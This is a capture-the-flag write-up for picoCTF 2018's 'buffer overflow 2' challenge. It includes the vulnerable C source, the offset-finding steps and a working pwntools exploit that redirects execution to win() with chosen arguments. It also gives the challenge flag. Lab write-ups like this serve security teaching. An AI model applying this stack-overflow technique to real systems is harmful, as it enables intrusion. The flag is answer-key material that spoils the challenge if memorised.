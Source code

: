 # buffer overflow 2
**Points: 250**

## Binary Exploitatioin

## Question
>Alright, this time you'll need to control some arguments. Can you get the flag from this program? You can find it in /problems/buffer-overflow-2_3_02aff35ae94896082cad513865e6c2eb on the shell server. Source. 

### Hint
>Try using gdb to print out the stack once you write to it!

## Solution
Let's check the source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
We need to redirect the _eip_ to win() passing as arguments _0xDEADBEEF_ and _0xDEADC0DE_
- We need to get the padding len, for that i use msf-pattern:
```
# msf-pattern_create -l 150
# msf-pattern_offset -q 0x64413764
[*] Exact match at offset 112
```
- Now we can develoap our exploit: `padding + win_dir + 4 nops + _0xDEADBEEF_ + _0xDEADC0DE_`
```python
#!/usr/bin/python3

from pwn import *
from getpass import getpass

vuln = ELF('vuln')
win = p32(vuln.symbols[b'win'])
padding = ('A' * 112).encode('utf-8')
arg1 = p32(0xDEADBEEF)
arg2 = p32(0xDEADC0DE)

payload = padding + win + asm('nop')*4 + arg1 + arg2

s = ssh(host='2018shell4.picoctf.com',user=input('[+] SSH username: '),password=getpass('[+] SSH password: '))
r = s.run('cd /problems/buffer-overflow-2_3_02aff35ae94896082cad513865e6c2eb; ./vuln')

r.recv()
r.sendline(payload)
r.recv()
print(r.recv().decode('utf-8'))

s.close()
```

![alt text](https://github.com/manulqwerty/picoCTF-2018-WriteUp/blob/master/Binary%20Exploitation/buffer%20overflow%202/images/1.png)

### Flag
`picoCTF{addr3ss3s_ar3_3asya4104c14}`
